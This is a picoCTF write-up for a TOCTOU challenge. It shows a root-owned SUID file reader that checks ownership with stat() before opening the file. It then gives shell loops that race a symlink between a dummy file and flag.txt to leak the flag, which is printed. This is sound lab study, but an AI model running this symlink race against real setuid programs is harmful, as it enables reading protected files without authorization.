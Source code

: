 # Lesson
- practicing `TOCTOU` exploitation  
- `ln -sf`  
  - -s: Create a symbolic link.  
  - -f: If the target file or directory already exists, remove it and create the link.  
- `SUID`  
  a kind of permission type  
- `stat()` function from `sys/stat.h` of `c`  
  - point...  
  If the named file is a symbolic link, the stat() function shall continue pathname resolution using the contents of the symbolic link, and shall return information pertaining to the resulting file if the file exists.  
  - https://pubs.opengroup.org/onlinepubs/009696799/functions/stat.html

# Memo
1. analyze  
"txtreader" is owned by "root" and has the SUID bit set, so it runs with "root" privileges even when launched by the low-privilege "ctf-player" account.
```zsh
ctf-player@pico-chall$ whoami
ctf-player
ctf-player@pico-chall$
ctf-player@pico-chall$ ls -la
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Jan  6 14:06 .
drwxr-xr-x 1 root       root          24 Aug  4 21:50 ..
drwx------ 2 ctf-player ctf-player    34 Jan  6 14:06 .cache
-rw-r--r-- 1 root       root          67 Aug  4 21:52 .profile
-rw------- 1 root       root          32 Aug  4 21:52 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4 21:52 txtreader
ctf-player@pico-chall$
```
```zsh
ctf-player@pico-chall$ cat ./src.cpp
```
```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
Considering a characteristics of `stat()` function from `sys/stat.h`, "symblic link" can deceive a check of user.  
![TOCTOU](toctou.png)    

2. exploit
```zsh
ctf-player@pico-chall$ touch dummy
ctf-player@pico-chall$
ctf-player@pico-chall$ for i in {1..10000}; do ln -sf dummy flag; ln -sf flag.txt flag; done &
[1] 37
ctf-player@pico-chall$ for i in {1..10000}; do ./txtreader flag 2>/dev/null; done
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
```

# Ref
- https://samsclass.info/127/proj/E10.htm  
- https://brandon-t-elliott.github.io/tic-tac  
- https://medium.com/@khanzjoel55/pico-ctf-2023-writeups-a09828def8cc  